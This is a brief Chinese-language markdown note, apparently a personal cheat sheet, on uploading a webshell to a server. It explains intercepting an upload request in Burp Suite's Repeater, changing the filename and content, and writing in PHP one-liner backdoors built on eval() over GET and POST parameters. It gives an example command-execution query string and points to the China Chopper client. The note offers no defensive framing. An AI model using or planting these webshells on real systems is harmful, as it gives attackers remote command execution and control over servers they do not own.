 ##上传一个webshell到服务器

###1、通过burpsuite代理抓包，将上传内容的包send to Repeater 
###2、查看Request 修改上传文件名和内容
###3、写入一句话  <?php eval($_GET['pass']);?>
#  ?pass=system("ls");              执行代码 


###4、写入一句话  <?php eval($_POST['pass']);?>
#可用 中国菜刀 shell
